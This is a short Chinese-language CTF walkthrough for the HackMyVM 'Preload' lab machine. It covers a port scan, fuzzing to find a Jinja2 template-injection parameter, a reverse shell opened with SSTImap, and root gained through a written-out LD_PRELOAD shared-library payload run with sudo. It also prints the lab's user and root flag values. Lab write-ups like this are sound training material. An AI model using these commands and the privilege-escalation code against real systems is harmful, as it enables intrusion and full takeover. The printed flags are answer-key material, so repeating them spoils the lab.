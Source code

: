 # Preload

2025.01.01 https://hackmyvm.eu/machines/machine.php?vm=Preload

## Ip

192.168.5.21

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5000/tcp open  upnp
```

80 web 服务扫描没发现什么隐藏的目录，但是在源代码中发现了一个连接 http://192.168.5.21/?multiply=7*7 好像存在模板注入，经过 SSTI 测试不存在注入。

在用 nc 连接目标的 5000 端口，出现错误，发现是个 Flask 框架搭建的，并且看到一个用户 /home/paul/code.py ，再次运行 nc 192.168.5.21 5000 目标服务器新创建了一个 50000 端口。

通过浏览器访问 50000 端口，发现目标使用的是 jinja2。但是需要找到http://192.168.5.21:50000中的传输参数，使用ffuf进行探测:

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://192.168.5.21:50000?FUZZ=ls
```

最终发现 cmd 是参数，并且存在 SSTI：

```
curl -G --data-urlencode 'cmd={{7*7}}' http://192.168.5.21:50000
49
```

直接使用 SSTI，得到了反弹的 shell：

```
python3 /home/kali/Documents/SSTImap/sstimap.py -u http://192.168.5.21:50000?cmd={{7*7}} --reverse-shell 192.168.5.3 8888
```

先获得了 user flag：

```
paul@preload:~$ cat us3r.txt
52f83ff6877e42f613bcd2444c22528c
```

sudo -l 发现 LD_PRELOAD，直接可以提权到 root:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}

gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /tmp/preload.c
sudo LD_PRELOAD=/tmp/preload.so cat
```

最终得到 root flag:

```
root@preload:~# cat 20o7.txt
09f7e02f1290be211da707a266f153b3
```
